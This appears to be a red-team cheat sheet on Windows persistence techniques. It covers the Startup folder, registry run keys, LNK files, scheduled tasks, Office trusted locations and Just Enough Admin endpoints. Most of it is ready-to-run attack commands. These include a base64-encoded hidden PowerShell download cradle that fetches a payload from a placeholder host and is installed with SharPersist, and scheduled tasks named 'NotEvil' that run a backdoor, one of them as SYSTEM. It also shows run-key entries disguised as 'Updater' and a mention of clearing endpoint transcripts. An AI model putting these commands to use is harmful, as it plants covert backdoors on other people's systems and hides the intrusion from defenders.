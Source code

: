 * [User land](#User-land)
  * [Startup](#Startup)
  * [Registery keys](#Registery-keys)
  * [LNK](#LNK)
  * [Schtask](#sSchtasks)
* [Elevated](#Elevated)
  * [Schtasks](#Schtasks2)
  * [Just Enough Admin](#Just-Enough-Admin)

## Host Persistence
### Userland
### Startup
- Batch script inside user directory ```$env:APPDATA'\Microsoft\Windows\Start Menu\Programs\Startup\'```

#### Startup folder sharpersist.exe
- Download an execute cradle as persistence
```
str='IEX ((new-object net.webclient).downloadstring("http://x.x.x.x/a"))'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64>" -f "UserEnvSetup" -m add
```

### Registery keys
- https://attack.mitre.org/techniques/T1060/

#### Registery sharpersist.exe
- ```-k``` is the registry key to modify.
- ```-v``` is the name of the registry key to create.
```
SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

### LNK
- Modify links to execute arbritary code
- https://github.com/HarmJ0y/Misc-PowerShell/blob/master/BackdoorLNK.ps1

### Schtasks
```
# Daily at 10:00
schtasks /create /tn "NotEvil" /tr C:\backdoor.exe /sc daily /st 10:00

# Run a task each time the user's sessions is idle for 10 minutes
schtasks /create /tn "NotEvil" /tr C:\backdoor.exe /sc onidle /i 10
```

##### schtask sharpersist.exe
- Download an execute cradle as persistence
```
str='IEX ((new-object net.webclient).downloadstring("http://x.x.x.x/a"))'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64>" -n "Updater" -m add -o hourly
```

#### Microsoft Office Trusted Locations
- Allow DLL or macros to execute despite the configured security settings (Ignored if macro's or add-ins have been blocked by GPO)
- Create a new Excel document with a module containing the persistence mechanism. Save it as "Excel Add-in" inside ```%APPDATA%\Microsoft\Excel\XLSTART``` and it will be launched every tim the user opens MS Excel application.
- https://labs.f-secure.com/archive/add-in-opportunities-for-office-persistence/

## Elevated
### Schtasks2
```
# Run task as system each time a user logs in
schtasks /create /ru "NT AUTHORITY\SYSTEM" /rp "" /tn "NotEvil" /tr C:\backdoor.exe /sc onlogon
```

### Just Enough Admin
- If we have admin privileges on a machine, we can create a JEA endpoint which allows all commands to a user we control.
- With this capability, it is also possible to clear the transcripts for this endpoint. 

#### Create a new JEA endpoint
- https://github.com/samratashok/RACE

```
Set-JEAPermissions -ComputerName ops-dc -SamAccountName <USER> -Verbose
```

#### Connect to JEA endpoint
```
Enter-PSSession -ComputerName ops-dc -ConfigurationName microsoft.powershell64
```
